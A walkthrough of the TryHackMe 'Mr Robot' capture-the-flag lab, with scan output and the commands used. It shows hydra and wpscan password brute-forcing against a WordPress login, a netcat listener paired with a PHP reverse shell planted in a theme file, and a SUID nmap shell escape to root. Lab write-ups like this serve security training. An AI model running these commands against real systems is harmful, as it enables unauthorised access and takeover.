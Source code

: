```yaml
---
title: "Writeup for Mr Robot CTF on THM"
classes: wide
header:  
  teaser: /assets/images/posts/writeups/mr_robot.jpg
  #overlay_image: /assets/images/main/header3.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "TryHackMe Mr Robot CTF is inspired by the popular TV series, this machine offers a thrilling challenge that will test your skills in web exploitation, privilege escalation, and more. I'll take you step-by-step through the process of hacking into the Mr Robot machine, uncovering hidden vulnerabilities, and ultimately capturing the flags."
description: "Walkthrough on Mr Robot CTF machine from TryHackMe"
categories:
  - writeups
tags:
  - mrrobot
  - THM
  - CTF
  - privesc
  - witeup
  - TryHackMe
toc: false
---
```

# Mr Robot CTF

<img src="/assets/images/posts/writeups/mr_robot.jpg" alt="Mr Robot" width="500" class="align-center">

## Information gathering

### Enumeration

#### nmap

Command:
```sh
nmap -sC -sV [machineIp]
```

Results:
```sh
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache

```
#### ffuf

Command:
```sh
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://[machineIp]/FUZZ 
```

Results:
```sh
.htpasswd               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 57ms]
.hta                    [Status: 403, Size: 213, Words: 16, Lines: 10, Duration: 61ms]
.htaccess               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 61ms]
                        [Status: 200, Size: 1188, Words: 189, Lines: 31, Duration: 90ms]
0                       [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 783ms]
admin                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 51ms]
audio                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 52ms]
atom                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 767ms]
blog                    [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 51ms]
css                     [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 51ms]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 831ms]
favicon.ico             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 830ms]
feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 834ms]
images                  [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 51ms]
image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 866ms]
index.html              [Status: 200, Size: 1188, Words: 189, Lines: 31, Duration: 70ms]
Image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 893ms]
index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 833ms]
intro                   [Status: 200, Size: 516314, Words: 2076, Lines: 2028, Duration: 59ms]
js                      [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 54ms]
license                 [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 79ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 808ms]
page1                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 788ms]
phpmyadmin              [Status: 403, Size: 94, Words: 14, Lines: 1, Duration: 59ms]
readme                  [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 53ms]
rdf                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 816ms]
robots                  [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 60ms]
robots.txt              [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 52ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 798ms]
rss2                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 791ms]
sitemap                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
sitemap.xml             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
video                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 57ms]
wp-admin                [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 53ms]
wp-content              [Status: 301, Size: 240, Words: 14, Lines: 8, Duration: 57ms]
wp-includes             [Status: 301, Size: 241, Words: 14, Lines: 8, Duration: 53ms]
wp-config               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 858ms]
wp-cron                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 867ms]
wp-links-opml           [Status: 200, Size: 227, Words: 13, Lines: 11, Duration: 852ms]
wp-load                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 829ms]
wp-login                [Status: 200, Size: 2613, Words: 115, Lines: 53, Duration: 873ms]
wp-settings             [Status: 500, Size: 0, Words: 1, Lines: 1, Duration: 777ms]
wp-mail                 [Status: 500, Size: 3064, Words: 212, Lines: 110, Duration: 951ms]
wp-signup               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 816ms]
xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 898ms]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 837ms]
:: Progress: [4614/4614] :: Job [1/1] :: 27 req/sec :: Duration: [0:02:38] :: Errors: 0 ::
```

## Exploitation

### Foothold
1. Check content of robots.txt file found in file enumeration
2. In the robots there is a file called http://[machineIp]/key-1-of-3.txt containing **Key1** (FIRST KEY IN THE CTF)
3. Also, in location http://[machineIp]/fsocity.dic is a dictionary, download it locally for later
4. Check the installed wordpress instance using wpscan:
```sh
wpscan --url http://[machineIp]/0/ --wp-content-dir wp-content -e vp,vt,cb,u,dbe,m
```
5. Scanning the wordpress we found two users: **elliot**, **mich05654**
6. Brute force with wpscan for user **mich05654**:
```sh
wpscan --url http://[machineIp]/0/ --wp-content-dir wp-content -U mich05654 -P /home/kali/Downloads/fsocity.dic 
```
7. Found password for mich05654!
8. Login with found user and password on the http://[machineIp]/wp-login.php
9. This user has limited access in wordpress
10. Since brute forcing with wpscan is realy slow we can use BurpSuite or Hydra to bruteforce for user *elliot*
11. Check for dictionary downloaded; a lot of lines are repeating - clean the dictionary first
12. Checking the dictionary again I saw that a couple of more than 11k passwords are repeating except last few lines:
```txt
ER28-0652
psychedelic
iamalearn
uHack
imhack
abcdefghijklmno
abcdEfghijklmnop
abcdefghijklmnopq
c3fcd3d76192e4007dfb496cca67e13b
ABCDEFGHIJKLMNOPQRSTUVWXYZ
```
13. Bruteforcing with this small list I found elliot's password!
```sh
hydra -l elliot -P /home/kali/Downloads/short.txt [machineIp] http-post-form "/wp-login.php:log=elliot&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.146.151%2Fwp-admin%2F&testcookie=1:The password you entered for the username"
```
14. Start a local listener with netcat `nc -lvnp 4455`
15. Login with elliot on wordpress and edit theme (Apearance >> Editor) replace the content of file (header.php) with a php rev shell (PentestMonkey.php from here https://www.revshells.com/)
16. Re-visit blog to load the content of header.php, the reverse shell should run

#### Data exfiltration
1. We are logged as user "daemon" on Linux machine and the second flag is own by user "robot", for this a lateral movement will be needed
2. Check for SUID `find / -perm /4000 2> /dev/null`
3. Found nmap instance with SUID set `-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap`

### Privilege escalation
1. Check https://gtfobins.github.io/gtfobins/nmap/ for how you can spawn a shell using nmap:
```sh
nmap --interactive
nmap> !sh
```
2. Voila! You are root :)

#### Data exfiltration
1. Read content of /home/robot/key-2-of-3.txt for **Key2** (SECOND KEY IN THE CTF)
2. Read content of /root/key-3-of-3.txt for **Key3** (THIRD KEY IN THE CTF)